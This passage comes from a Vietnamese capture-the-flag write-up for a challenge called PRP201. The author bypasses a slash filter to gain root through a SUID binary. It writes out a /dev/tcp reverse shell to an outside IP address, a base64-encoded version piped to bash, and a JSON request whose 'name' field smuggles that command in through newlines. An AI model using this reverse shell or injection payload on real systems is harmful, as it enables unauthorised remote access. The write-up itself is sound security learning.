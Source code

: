     ![lssh.txt](img/PRP201_7.png)

- Vậy là chính xác rồi, nhưng có một vấn đề là ta cần tìm đến `/root` để mở file `secret_service`, và tất nhiên là phải root thì mới có thể làm được điều đó (mình đã thử rồi)

- Mụ mẫm cả đầu thì anh T giấu tên và anh Khoa (tác giả) đã gợi ý về `reverse shell`

- Vậy bây giờ chỉ cần dùng cách trên, tạo một file chạy một đoạn reverse shell và chúng ta sẽ chiếm quyền thông qua SUID (hint từ tác giả) là xong

- Nhưng, mình đã thử và nhận ra, tất cả những command mà chứa dấu '/' thì lỗi 500 là rõ, như ở dưới mình để `name` trong JSON là `\nls ../root\n`:

    ![500](img/PRP201_8.png)

- Vậy là mình cần cách khác, nhưng trước tiên, phải chuẩn bị cái reverse shell đã :D

    ```shell
        sh -i >& /dev/tcp/34.92.153.161/8899 0>&1
    ```

- Có cả revshell của `bash`, `nc`, ..., tìm hiểu tại [đây](https://www.revshells.com/)

- Vẫn là tác giả đã gợi ý cho mình một cách để đẩy được revshell kia lên, sử dụng `base64`, chuyển đoạn shell ở trên thành `base64` encode, và đưa về dạng sau:

    ```shell
        echo "c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjEK" | base64 -d | bash
    ```

- Vậy là xong, giờ cần chuẩn bị request đầu tiên (hãy nhớ escape string :v):

    ```json
        {
            "dir" : "rev",
            "name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n",
            "command_log" : "rev",
            "url" : "http://localhost:8888/"
        }
    ```
